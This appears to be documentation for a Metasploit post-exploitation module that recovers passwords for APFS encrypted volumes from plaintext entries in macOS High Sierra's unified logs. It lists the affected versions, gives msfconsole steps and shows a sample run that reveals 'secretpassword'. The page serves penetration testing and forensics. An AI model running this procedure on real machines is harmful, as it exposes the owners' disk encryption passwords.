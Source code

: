 This module uses a vulnerability in macOS High Sierra's `log` command. It uses the logs of the Disk Utility app to recover the password of an APFS encrypted volume from when it was created. 

## Vulnerable Application

  * macOS 10.13.0
  * macOS 10.13.1
  * macOS 10.13.2
  * macOS 10.13.3*


  \* On macOS 10.13.3, the password can only be recovered if the drive was encrypted before the system upgrade to 10.13.3. See [here](https://www.mac4n6.com/blog/2018/3/21/uh-oh-unified-logs-in-high-sierra-1013-show-plaintext-password-for-apfs-encrypted-external-volumes-via-disk-utilityapp) for more info

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Start `msfconsole`
  2. Do: `use post/osx/gather/apfs_encrypted_volume_passwd`
  3. Do: set the `MOUNT_PATH` option if needed
  4. Do: ```run```
  5. You should get the password

## Options

  **MOUNT_PATH**

  `MOUNT_PATH` is the path on the macOS system where the encrypted drive is (or was) mounted. This is *not* the path under `/Volumes`

## Scenarios

  Typical run against an OSX session, after creating a new APFS disk using Disk Utility:

```
msf5 exploit(multi/handler) > use post/osx/gather/apfs_encrypted_volume_passwd
msf5 post(osx/gather/apfs_encrypted_volume_passwd) > set SESSION -1
SESSION => -1
msf5 post(osx/gather/apfs_encrypted_volume_passwd) > exploit

[+] APFS command found: newfs_apfs -i -E -S aa -v Untitled disk2s2 .
[+] APFS command found: newfs_apfs -A -e -E -S secretpassword -v Untitled disk2 .
[*] Post module execution completed
msf5 post(osx/gather/apfs_encrypted_volume_passwd) >
```
